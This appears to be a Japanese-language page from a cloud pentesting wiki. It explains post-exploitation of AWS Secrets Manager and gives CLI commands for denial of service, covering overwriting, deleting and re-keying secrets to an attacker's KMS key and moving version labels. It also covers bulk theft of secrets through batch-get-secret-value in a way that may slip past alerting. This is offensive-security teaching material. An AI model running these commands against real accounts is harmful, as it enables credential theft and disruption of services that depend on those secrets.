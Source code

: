 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

詳細は次を参照してください：

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### シークレットの読み取り

シークレット自体は機密情報です。読み取り方法については[privesc ページ](../aws-privilege-escalation/aws-secrets-manager-privesc.md)を参照してください。

### DoS — シークレット値の変更

シークレットの値を変更すると、その値に依存するすべてのシステムを**DoS**してしまう可能性があります。

> [!WARNING]
> 以前の値も保存されるので、簡単に以前の値に戻すことができます。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

攻撃者が secretsmanager:UpdateSecret 権限を持っている場合、攻撃者が所有する KMS key を使うように secret を構成できます。そのキーは最初、誰でもアクセス・使用できるように設定されているため、secret をその新しいキーで更新することが可能です。もしキーにアクセスできなければ、secret は更新できません。

secret のキーを変更した後、攻撃者は自分のキーの設定を変更して自分のみがアクセスできるようにします。こうすることで、以降のバージョンの secret は新しいキーで暗号化され、そのキーにアクセスできないため secret を取得することができなくなります。

重要なのは、このアクセス不能は secret の内容が変更された後の以降のバージョンでのみ発生する点です。現在のバージョンはまだ元の KMS key で暗号化されているため、現時点では影響を受けません。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

シークレットを削除するための最小日数は7日です
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

シークレットは復元可能です。シークレットの削除期間は最短7日、最長30日であるため、削除予定になっているシークレットを復元できます。secretsmanager:GetSecretValue 権限があれば、その内容を取得できます。

削除処理中のシークレットを復元するには、次のコマンドを使用します：
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

このアクションは、シークレットへのアクセスを誰が許可されるかを制御するリソースポリシーを削除できるようにします。リソースポリシーが特定のユーザー群へのアクセスを許可するように設定されていた場合、これはDoSにつながる可能性があります。

リソースポリシーを削除するには:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

シークレットのステートはシークレットのバージョン管理に使われます。AWSCURRENT はアプリケーションが使用するアクティブなバージョンを示し、AWSPREVIOUS は必要に応じてロールバックできるよう前のバージョンを保持し、AWSPENDING はローテーション処理で新しいバージョンを準備・検証して現在のバージョンにする前に使われます。

アプリケーションは常に AWSCURRENT が付いたバージョンを読みます。誰かがそのラベルを誤ったバージョンに移動すると、アプリは無効な認証情報を使ってしまい、動作が失敗する可能性があります。

AWSPREVIOUS は自動で使用されるわけではありません。しかし、AWSCURRENT が削除されたり誤って再割り当てされた場合、すべてが前のバージョンで稼働しているように見えることがあります。
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}

### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager の BatchGetSecretValue API を悪用して、1回のリクエストで最大20個のシークレットを取得します。これは各シークレットごとに GetSecretValue を繰り返す場合と比べて API コール数を大幅に削減できます。フィルタ（tags/name）を使用する場合は ListSecrets の権限も必要です。CloudTrail はバッチで取得された各シークレットについて個別に GetSecretValue イベントを記録します。

必要な権限
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue（各対象シークレットごとに）
- secretsmanager:ListSecrets（--filters を使用する場合）
- kms:Decrypt（シークレットで使用される CMKs に対して。aws/secretsmanager を使用していない場合）

> [!WARNING]
> `secretsmanager:BatchGetSecretValue` の権限だけではシークレットを取得するのに十分ではありません。取得したい各シークレットに対して `secretsmanager:GetSecretValue` も必要です。

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
フィルタによるExfiltrate (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
部分的な失敗の処理
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
影響
- より少ない API コールで多くの secrets を迅速に “smash-and-grab” し、GetSecretValue の急増に合わせて調整されたアラートを回避する可能性がある。
- CloudTrail ログには、batch で取得された各 secret ごとに 1 件の GetSecretValue イベントが含まれる。
